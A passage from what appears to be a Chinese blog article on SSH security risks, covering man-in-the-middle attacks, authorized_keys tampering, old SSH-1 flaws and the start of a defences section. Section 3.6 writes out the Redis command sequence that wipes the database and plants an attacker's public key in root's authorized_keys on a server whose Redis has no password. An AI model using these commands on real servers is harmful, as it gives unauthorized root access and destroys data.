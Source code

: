 ```
4.重启SSH服务：在配置修改后，重启SSH服务以应用新的配置。
```  
  
### 3.3 Man-in-the-Middle（中间人）攻击  
  
尽管SSH  
的加密通信机制能有效防止窃听，但如果攻击者能够在首次建立连接时实施中间人攻击，劫持公钥交换的过程，便可能替换公钥，使用户之后的通信被篡改或监控。  
### 3.4 公钥文件污染  
  
服务器上的authorized_keys  
文件存储着客户端的公钥，一旦该文件被恶意篡改或污染，攻击者就可以添加自己的公钥，获得对服务器的访问权限。因此，服务器的文件系统安全和权限管理至关重要。  
### 3.5 老旧SSH协议漏洞  
  
SSH  
协议经历了多个版本的更新，早期版本（如  
SSH-1  
）存在严重的安全漏洞。如果服务器支持不安全的旧版本协议，攻击者可能通过这些漏洞进行攻击。因此，建议使用SSH-2  
版本，该版本修复了许多安全问题。  
### 3.6 edis等未授权漏洞写公钥  
  
1.Redis  
存在弱口令或空密码漏洞。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfIhEKcicTtwn9wb09piaSHQKHQrgP9yxSmygNJxEbVUdNUWkcerFRakwfuFMMjBIUxia3eQxR4kKQ9w/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
2.连接后确定Linux  
系统后依次执行命令：  
```
flushall

config set dir /root/.ssh/

config set dbfilename authorized_keys

ssh-rsa AAAAB3Nza**************HFk= root@hostname   （id_rsa.pub文件内容）

save
```  
  
3.选择连接方式为公钥连接。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfIhEKcicTtwn9wb09piaSHQKCM3xPZTWyNdWjJBgntdCS3k8PCZWXDhpjibcx8tQ39ctHSMOJMOibhrQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
## 0x04 防御措施  
### 4.1 私钥的安全存储  
- **加密私钥**  
  
：生成密钥时为私钥设置密码，以防止私钥文件被直接使用。  
  
- **权限设置**  
  